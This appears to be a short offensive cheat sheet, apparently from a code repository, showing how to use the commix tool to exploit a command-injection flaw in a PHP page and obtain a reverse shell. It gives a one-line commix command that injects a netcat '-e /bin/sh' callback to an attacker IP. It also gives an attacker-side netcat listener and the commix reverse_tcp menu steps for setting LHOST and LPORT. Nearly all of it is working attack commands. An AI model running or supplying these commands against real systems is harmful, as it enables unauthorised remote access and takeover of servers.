 Commix Reverse Shell
====================
Technique 1
-----------
```bash
commix -u 'http://10.5.21.4/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh 10.5.21.22 1234"
```

Technique 2
-----------
On Attacker
-------------
````bash
nc -lvp 1234
````

On Victim
------------
```bash
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```

